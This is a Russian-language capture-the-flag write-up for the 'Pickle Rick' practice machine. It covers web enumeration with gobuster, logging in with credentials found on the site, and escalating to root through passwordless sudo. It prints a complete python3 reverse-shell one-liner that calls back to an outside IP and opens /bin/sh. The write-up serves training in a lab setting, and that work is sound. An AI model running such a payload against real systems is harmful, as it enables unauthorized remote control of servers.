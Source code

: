 # Pickle Rick WriteUp (Easy) ✅

Запустив машину и перейдя по ip, мы видим страницу с текстом и картинкой&#x20;

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>📌 Добавив в папку /etc/hosts с помощью команды <code>sudo nano /etc/hosts</code> ip машины и ее название, можно обращаться к этому адресу по названию (например rick.thm)</p></figcaption></figure>

Проверив текстовый файл **/robots.txt**, мы можем найти какое-то странное сообщение  (которое в будущем нам понадобится)&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Также, просмотрев код сайта, мы можем заметить записку, в которой указано имя пользователя **R1ckRul3s**

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



Далее, используя инструмент **gobuster** (`gobuster dir -u pent.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .php)` находим несколько скрытых файлов

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Конкретно в данному случае нас интересует файл **/login.php**, перейдя по которому мы попадаем на страницу авторизации

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

В качестве имени пользователя я ввёл ранее найденное имя **R1ckRul3s**, а в качестве пароля - записку в файле **/robots.txt**

Пройдя авторизацию, мы переходим на страницу с командной строкой и несколькими вкладками, которые нам недоступны (впрочем, они и не нужны)

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption><p>С помощью команды <mark style="color:blue;"><strong>ls</strong></mark> мы можем посмотреть, какие файлы находятся в нашем репозитории</p></figcaption></figure>

К сожалению, мы не имеем разрешения вывести содержимое текстового файла с помощью команды **cat**, но введя в адресную строку **ip\_машины/название\_файла.txt** мы можем прочитать то, что в нём находится

🔎 **** Итак, первый ингредиент написан в файле **Sup3rS3cretPickl3Ingred.txt**

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Для того, чтобы подключиться к данной машине, используем **python3 reverse shell**&#x20;

`python3 -c 'import socket,subprocess,os;s=socket.socket(`[`socket.AF`](https://vk.com/away.php?to=http%3A%2F%2Fsocket.AF\&cc\_key=)`_INET,socket.SOCK_STREAM);s.connect(("10.8.1.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=`[`subprocess.call`](https://vk.com/away.php?to=http%3A%2F%2Fsubprocess.call\&cc\_key=)`(["/bin/sh","-i"]);'`

Запустив слушатель в терминале Linux, отправляем пейлоад в командную строку на сайте, затем получаем реверс шелл от лица пользователя **www-data**

&#x20;

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

&#x20;

:mag\_right: Перейдя в директорию **/home**, мы можем найти папку **rick**, в которой и находится второй ингредиент

![](<../.gitbook/assets/image (3) (2).png>)

С помощью команды `sudo -l` мы можем узнать, какие sudo-права мы имеем как пользователь **www-data**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

В данном случае нам доступны все команды пользователя **root** без пароля &#x20;

Пользуясь этим, мы можем просмотреть содержимое директории **/root** и вывести его в случае необходимости

Третий ингредиент как раз находится в директории **/root** в файле **3rd.txt**

Выводим содержимое файла и получаем последний флаг для данной машины&#x20;

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
